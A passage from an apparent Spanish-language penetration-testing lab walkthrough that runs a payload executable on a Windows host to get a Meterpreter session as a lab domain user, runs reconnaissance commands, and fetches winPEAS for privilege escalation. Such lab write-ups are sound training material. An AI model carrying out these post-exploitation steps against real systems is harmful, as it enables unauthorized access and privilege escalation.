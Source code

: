 Y ahora simplemente, ejecutamos el .exe en la sesión de Windows. 

```
.\executeme.exe
```

Si volvemos a nuestra sesión de Metasploit  veremos que tenemos una sesión Meterpreter en la que estamos conectados al equipo objetivo como el usuario LAB-ENTERPRISE\bitbucket. En Meterpreter,ejecutamos los siguientes comandos. 

```
getuid
ipconfig
```

![Imagen037](37.jpeg)


![Imagen038](38.jpeg)


Ya con esto, podemos cerrar RDP sin ningún problema y operar desde esta sesión de Meterpreter

Para elevar nuestros privilegios, vamos a utilizar winPEAS.exe. Para tenerlo en nuestro Kali, utilizaremos estos comandos

```bash
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/winPEAS/winPEASps1
```
